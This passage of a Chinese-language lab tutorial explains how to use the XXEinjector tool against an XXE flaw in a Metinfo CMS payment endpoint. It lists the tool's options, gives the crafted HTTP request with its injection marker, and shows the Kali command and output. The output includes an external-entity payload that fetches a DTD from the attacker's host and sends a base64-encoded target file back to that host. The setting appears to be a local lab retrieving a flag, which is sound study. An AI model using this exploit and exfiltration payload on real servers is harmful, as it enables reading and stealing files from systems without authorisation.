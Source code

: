 这里解释一下各个参数的意思

```
--host 指定本地IP地址，即反向连接地址，注意不是靶机地址
--file 指定发送目标的请求包，这里我的请求包内容放在了下面
--path 指定指定要遍历的目录或文件，如果想遍历目录则需要目标是java环境，如果是单一文件，则哪种环境都行
--verbose 显示详细信息，可以显示攻击数据包等，推荐使用
--httpport 指定本地监听端口，默认80，这个也就是指定本地IP地址的端口
--oob out of band方式提供ftp(默认)、http、gopher三种协议，在我自己的本地测试发现只有使用http方协议才能正常返回数据
--phpfilter 使用PHP filter对检索文件进行Base64编码，这个参数不加上可能数据无法返回
```

我这里 --file 参数指定发送目标的请求包如下，如果笔者想要复现则需要修改IP成自己的，另外需要注意，请求包中的 "XXEINJECT" 为工具的标记注入点

```
POST /member/index.php?a=donotify&m=web&c=pay&n=pay HTTP/1.1
Host: 192.168.38.132  #目标IP
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip,deflate
Content-Type: text/xml
Referer: http://192.168.38.132/  #目标IP
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 25

XXEINJECT
<data>4</data>
```

值得注意的是XXEinjector需要Ruby语言支持，因为Kali自带Ruby语言环境，这里我就直接用Kali了，接下来就让我们愉快的使用工具吧。

```
root@kali:~# ./XXEinjector.rb --host=192.168.38.129 --file=metlnfo_req.txt --path=C:/flag.txt --verbose --httpport=999 --oob=http --phpfilter
XXEinjector by Jakub Pałaczyński

Enumeration options:
"y" - enumerate currect file (default)
"n" - skip currect file
"a" - enumerate all files in currect directory
"s" - skip all files in currect directory
"q" - quit

[+] Sending request with malicious XML:
http://192.168.38.132:80/member/index.php?a=donotify&m=web&c=pay&n=pay
{"User-Agent"=>"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept"=>"application/json, text/javascript, */*; q=0.01", "A8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding"=>"gzip,deflate", "Content-Type"=>"text/xml", "Referer"=>"http://192.168.38.132/", "X-Requested-W"1", "Connection"=>"close", "Pragma"=>"no-cache", "Cache-Control"=>"no-cache", "Content-Length"=>"119"}

<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://192.168.38.129:999/file.dtd">%remote;%int;%trick;]>
<data>4</data>

[+] Got request for XML:
GET /file.dtd HTTP/1.0

[+] Responding with XML for: C:/flag.txt
[+] XML payload sent:
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/flag.txt">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://192.168.38.129:999/?p=%payl;'>">
```